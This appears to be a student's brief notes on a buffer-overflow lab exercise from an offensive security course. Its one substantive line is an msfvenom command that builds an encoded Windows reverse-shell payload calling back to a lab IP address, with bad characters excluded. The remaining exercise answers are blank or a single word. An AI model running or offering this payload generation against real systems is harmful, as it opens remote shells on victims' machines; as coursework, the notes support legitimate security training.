




### 15.1.6.1 Exercises
#### 1. Generate a reverse shell payload using msfvenom while taking into account the bad characters of our exploit.

Remembering the bad characters from exercise 11.2.10.1, the payload was regenerated in msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 EXITFUNC=th
read -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```



#### 2. Replace the original payload with the newly generated one.



#### 3. Attach the debugger to the target process and set a breakpoint at the return address instruction.



#### 4. Compile the exploit and run it. Did you hit the breakpoint?

Nope

